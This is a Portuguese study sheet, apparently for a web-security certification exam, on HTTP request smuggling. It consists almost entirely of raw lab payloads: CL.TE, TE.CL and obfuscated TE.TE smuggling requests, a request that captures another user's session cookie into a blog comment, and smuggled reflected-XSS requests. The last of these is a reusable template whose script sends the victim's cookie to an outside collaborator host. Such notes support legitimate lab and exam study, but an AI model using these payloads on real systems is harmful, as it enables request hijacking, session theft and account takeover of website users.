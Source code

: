 # HTTP Request Smuggling

Probabilidade: $${\color{green}baixa}$$.

<br>

É bem incomum de cair no exame, mas caso ela apareça, identifique-a com a extensão HTTP Request Smuggler e ao identificar o tipo, utilize os payloads dos labs.

<br>

## Laboratórios

**Use unsupported Method GPOST (CL.TE)**
```
POST / HTTP/1.1
...
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

<br>
<br>

**Use unsupported Method GPOST (TE.CL)**
```
POST / HTTP/1.1
Host: 0a4d007b048d4832c0afb01800b700ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

<br>
<br>

**Obfuscating TE.TE**

```
POST / HTTP/1.1
Host: 0a8800ee047d6d24c0c255e700a6009c.web-security-academy.net
Connection: close
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: xchunked
Content-Length: 4

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

<br>
<br>

**Detecting CL.TE**

```
POST / HTTP/1.1
Host: 0a6a00d30379506b809380bf004a002c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Transfer-Enconding: chunked

0

GET /throws404 HTTP/1.1
X-Ignore: X
```

<br>
<br>

**Get Other User's Request to Steal Cookie**
```
POST / HTTP/1.1
Host: 0ab400c404f08302c01f503800ff00ba.web-security-academy.net
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 357
tRANSFER-ENCODING: chunked

0

POST /post/comment HTTP/1.1
Host: 0ab400c404f08302c01f503800ff00ba.web-security-academy.net
Cookie: session=N2dqf1wUAKs2U79D8Kb9d3ROkWblLydg
Content-Length: 814
Content-Type: application/x-www-form-urlencoded
Connection: close

csrf=nyDg9uHq32xSredK0gaIuHeyk21sESN8&postId=2&name=wad&email=rei%40gmail.com&website=https://kek.com&comment=LEL
```

<br>
<br>

**Exploiting HTTP Request Smuggling to Deliver Reflected XSS**
```
POST / HTTP/1.1
Host: 0a5800fa04974f1bc15f0dab004400ef.web-security-academy.net
Cookie: session=3MNdX218m6gxqn82BLl4dxpx3eCLNd8i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Transfer-Encoding: chunked

3
x=y
0

GET /post?postId=10 HTTP/1.1
User-Agent: kek"><img src=123 onerror=alert(1)>
Foo: x
```

OU

```
POST / HTTP/1.1
Host: 0a7100630381286c8082da5d00ea00f2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 149
Transfer-Encoding: chunked

0

GET /post?postId=3 HTTP/1.1
User-Agent: "/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

Versão adaptada:
```
POST / HTTP/1.1
Host: TARGET.net
Content-Length: 237
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://OASTIFY.COM/?Hack='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
